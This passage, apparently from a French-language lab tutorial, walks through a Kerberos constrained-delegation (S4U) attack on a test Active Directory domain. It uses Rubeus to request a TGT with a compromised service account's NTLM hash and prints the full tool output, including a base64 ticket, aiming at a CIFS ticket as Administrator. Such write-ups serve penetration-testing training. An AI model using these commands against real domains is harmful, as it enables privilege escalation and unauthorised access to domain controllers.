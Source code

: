 ```SB``` est soit dans le champs **msDS-AllowedToDelegateTo** de ```SA```:  
```

Maintenant il nous faut dérouler les S4U pour générer un ticket de service, non pas pour *TIME/DC*, mais pour *CIFS/DC* pour l'utilisateur **WINDOMAIN\Administrator**.  

Vérifions que le share ```\\DC\C$``` nous est refusé:  
```
C:\tools>dir \\DC\C$
Access is denied.
```

En premier, nous demandons un TGT pour le compte de service compromis ```srv$``` :
```cmd
C:\tools> C:\tools\Rubeus\Rubeus-master\Rubeus\bin\Debug\rubeus.exe asktgt /user:srv$ /domain:windomain.local /ntlm:b5858035cb595dd82050f9193b220232 /outfile:srv.tgt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: b5858035cb595dd82050f9193b220232
[*] Building AS-REQ (w/ preauth) for: 'windomain.local\srv$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE5DCCBOCgAwIBBaEDAgEWooID9DCCA/BhggPsMIID6KADAgEFoREbD1dJTkRPTUFJTi5MT0NBTKIk
      MCKgAwIBAqEbMBkbBmtyYnRndBsPd2luZG9tYWluLmxvY2Fso4IDpjCCA6KgAwIBEqEDAgECooIDlASC
      A5DCmCD2rczQzoD7RBj3++6B+e7j68hijB0EoPUE87/OBc6Rw5hAPLzcWFJC8sfBuWWywOB/Y4O6Z9Xv
      IKQsk8mypOz33ffprU2NhtGGz9fcuy2oFKonUhUU3QSCgMT16KOfkpt2QYsan9zV4vUJpdEDrRCkdKCx
      +bu+dL63100hpjT8BlOZDsobNBPalaQRo1AihpxPgA48UtsDVB/hG0A4monF5x2wCBsoKy+7MEBi0CAa
      tLDv60ly4eIvRPijEXkN3Zmm/l1wIzWt4WpcGFdpoSTS+VLkgws9zHVCuoQlOGWURjTHRksHjIG6Exkf
      KXyCBCuO6vUxC+DUv3vCVC1wBEs5e7VXtGPhUzd8jJoSVCc+oSv4zXS+NzVf0RTr8ephMHxrXzzpCVQL
      y+3fLU+5/xcnzZiTypBDnjeluHKnlj+cZhQVniQU5PEhGw+DnaL22QZqOPY08VouXUtE44spKsrRGu8N
      qkwqdLVFTDSNNYgUGFGAvUG7QyWeC/XhbYvA5dpM9DUXhVo7ri3A4TZbLSfdrfiy14cOrl6AV8yD1Afo
      +Dks8KELhnba6JWdY6RVgbgXgvwDuy69JKrTPhifpTwEMrvbJejRnM0iD4YwwPTY6qT9xtXDRw5nfb/N
      yd2WZVmwlFsg3JBl0VCNAzfTxyZLhta5s8G8lRJmpBTUPgxWXVleta4v9XGGoWuT0WlmSveXSKrowwLZ
      BhHaSm0/IVRypnWyJYEY+PU7LXOsHDt3arS8WWMUV/niRYEVSIHM86AF5m7VJL52XRXeM45u/jtpWwfL
      b0/Dx0Hma2A/dti+2ns+PyjQxhMxj9iqKwyVAsNYkKlTL8HgD/NqT+Tt2Lh7CnhP6gqIpdQswTUq/XLO
      8FA/ZKtg13mF0A8FqbUKbmcntXc6+oBklkoQAilQSbShmrVuqLAMEoMOnc2l7S0tTGpDlPkNzIzcTk9l
      BdPbVvmWhMOu8JV/SywUW60pO3YpoBu8qpIuHUboFNbzBszDh+N0D9WK8Idt5YSQAqVpRQY01aDiO1H8
      rOq1yrDlShkzNG2pixurvyNsckdRRytESyggACpn12cXOWOOUcQzMyf42m+gyuj4WaoL98elvax0Qz51
      wSFpyoBq4gj1QF+h2RroJabfKBIwemCbeKD7CE5gQEkYLWCjoSNwzYGMEmtVZdDib8nlIRarsqNsrZGF
      RTpD9hg1sjrWJhZ9gjijgdswgdigAwIBAKKB0ASBzX2ByjCBx6CBxDCBwTCBvqAbMBmgAwIBF6ESBBD6
      04gmG9bj12WZbdd2ZJYboREbD1dJTkRPTUFJTi5MT0NBTKIRMA+gAwIBAaEIMAYbBHNydiSjBwMFAEDh
      AAClERgPMjAyMDA5MjUxODA1MDdaphEYDzIwMjAwOTI2MDQwNTA3WqcRGA8yMDIwMTAwMjE4MDUwN1qo
      ERsPV0lORE9NQUlOLkxPQ0FMqSQwIqADAgECoRswGRsGa3JidGd0Gw93aW5kb21haW4ubG9jYWw=

[*] Ticket written to srv.tgt


  ServiceName           :  krbtgt/windomain.local
  ServiceRealm          :  WINDOMAIN.LOCAL
  UserName              :  srv$
  UserRealm             :  WINDOMAIN.LOCAL
  StartTime             :  9/25/2020 6:05:07 PM
  EndTime               :  9/26/2020 4:05:07 AM
  RenewTill             :  10/2/2020 6:05:07 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
```